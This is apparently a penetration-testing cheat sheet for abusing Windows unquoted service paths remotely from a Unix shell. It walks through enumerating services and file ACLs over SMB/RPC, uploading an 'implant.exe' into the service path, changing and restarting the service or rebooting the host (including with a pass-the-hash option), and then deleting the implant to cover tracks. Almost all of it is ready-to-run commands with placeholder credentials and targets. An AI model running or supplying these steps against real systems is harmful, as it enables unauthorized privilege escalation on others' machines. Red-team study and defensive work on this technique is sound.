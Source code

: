 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ net rpc service list -U "<username>%<password>" -S <IP>

$ net rpc service status <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> list

$ services.py "<username>":"<password>"@<IP> config -name <service>

$ services.py "<username>":"<password>"@<IP> status -name <service>
```

```
$ regshell

$ reg.py "<username>":"<password>"@<IP> query -keyName
```

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/Program Files/Unquoted Path Service"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/Program Files/Unquoted Path Service"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

```
$ services.py "<username>":"<password>"@<IP> change -name <service>
```

### 2.1 - Automatic service

Reboot the system.

```
$ net rpc shutdown -t 0 -r -U "[<domain>/]<username>%<password>" -S <IP>

$ net rpc shutdown -t 0 -r -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 2.2 - Manual service

```
$ net rpc service stop <service> -U "<username>%<password>" -S <IP>

$ net rpc service start <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> stop -name <service>

$ services.py "<username>":"<password>"@<IP> start -name <service>
```

## 03 - Cleanup

Let's remove our implant after we're elevated to continue on during the post exploitation phases.

```
smb: \> rm "/Program Files/Unquoted Path Service/common.exe"
```